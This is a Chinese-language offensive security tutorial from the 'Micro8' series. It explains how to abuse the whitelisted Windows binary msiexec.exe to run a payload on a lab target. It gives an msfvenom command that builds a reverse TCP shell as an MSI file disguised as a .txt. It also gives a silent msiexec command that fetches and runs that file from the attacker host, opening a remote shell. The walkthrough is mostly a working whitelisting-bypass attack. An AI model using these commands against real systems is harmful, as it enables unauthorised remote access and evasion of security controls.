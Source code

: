 ```yaml
---
title: 78、基于白名单Msiexec执行payload第八季
date: 2019-09-21 19:06:28
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，身体特别重要。

### Msiexec简介：

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：

Windows 2003 默认位置：

```code
C:\WINDOWS\system32\msiexec.exe
C:\WINDOWS\SysWOW64\msiexec.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
![](../do/media/2649cf5ad568984ff20e46111fa98b12.jpg)


### 配置payload：

```code
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f msi > Micropoor_rev_x64_53.txt
```
![](../do/media/5c011fcb99c3411ae97fb78affcca15d.jpg)

![](../do/media/69b03297f582100971130f6ac6a9e1e4.jpg)

### 靶机执行：

```code
C:\Windows\System32\msiexec.exe /q /i http://192.168.1.4/Micropoor_rev\_x64_53.txt
```
![](../do/media/39acc13b2f9da5473510eed6d26c74a1.jpg)

![](../do/media/c70a2131fc4a5392c8405806438ca269.jpg)

![](../do/media/7f9e95b7d3fa9393cd1e6a4978294430.jpg)

>   Micropoor
